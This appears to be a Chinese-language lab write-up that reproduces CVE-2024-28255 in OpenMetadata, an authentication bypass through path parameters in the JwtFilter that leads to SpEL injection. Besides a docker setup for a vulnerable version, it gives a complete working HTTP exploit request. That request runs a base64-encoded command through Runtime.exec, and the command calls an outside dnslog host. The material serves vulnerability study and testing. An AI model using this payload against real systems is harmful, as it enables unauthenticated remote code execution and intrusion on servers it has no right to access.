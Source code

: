 # OpenMetadata平台身份验证绕过RCE漏洞(CVE-2024-28255)

​	OpenMetadata是一个统一的发现、可观察和治理平台，由中央元数据存储库、深入的沿袭和无缝团队协作提供支持。它是发展最快的开源项目之一，拥有充满活力的社区，并被各行业垂直领域的众多公司采用。 OpenMetadata 基于开放元数据标准和 API，支持各种数据服务的连接器，支持端到端元数据管理，让您可以自由地释放数据资产的价值。

​	 “JwtFilter”通过要求和验证 JWT 令牌来处理 API 身份验证。当新请求到来时，将对照此列表检查请求的路径。当请求的路径包含任何排除的端点时，过滤器将返回而不验证 JWT。不幸的是，攻击者可能使用路径参数使任何路径包含任意字符串。例如，对“GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/111”的请求将与排除的端点条件匹配，因此将在没有 JWT 验证的情况下进行处理，从而允许攻击者绕过身份验证机制并到达任何任意端点，包括上面列出的导致任意 SpEL 表达式注入的端点。

OpenMetadata官网https://open-metadata.org/

参考链接：

- https://github.com/open-metadata/OpenMetadata/security/advisories/GHSA-6wx7-qw5p-wh84
- https://nvd.nist.gov/vuln/detail/CVE-2024-28255



**Affected versions**：< 1.2.4



## 漏洞环境

执行如下命令启动一个OpenMetadata-v1.2.3-web：

```shell
docker compose -f docker-compose-postgres.yml up --detach
```

环境启动后，访问`http://your-ip:8585`即可跳转到OpenMetadata登录页面

![image-20240419113224286](./1.png)



## 漏洞复现

将执行命令nslookup p2h9m0.dnslog.cn 转为base64编码 替换下方payload的base64编码

```
GET /api/v1;v1%2fusers%2flogin/events/subscriptions/validation/condition/T(java.lang.Runtime).getRuntime().exec(new%20java.lang.String(T(java.util.Base64).getDecoder().decode(%22bnNsb29rdXAgcDJoOW0wLmRuc2xvZy5jbg==%22))) HTTP/1.1
Host: 192.168.160.128:8585
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: i18next=en-US; session=f368d9b4-14d9-4287-907c-5579c7559d1e.c9Wh3_S37WPJvNGOpx7JhuM3y8w; redirectUrlPath=%2F; __session=%7B%22id%22%3A%2223804efd-a7ed-42dd-a790-a55c75c9daa8%22%2C%22created%22%3A1713500260268%2C%22createdAt%22%3A%222024-04-19T04%3A17%3A40.268Z%22%2C%22expires%22%3A1713502060268%2C%22expiresAt%22%3A%222024-04-19T04%3A47%3A40.268Z%22%7D
Connection: close

```

![image-20240419121842629](./2.png)

查看dnslog

![image-20240419122051129](./3.png)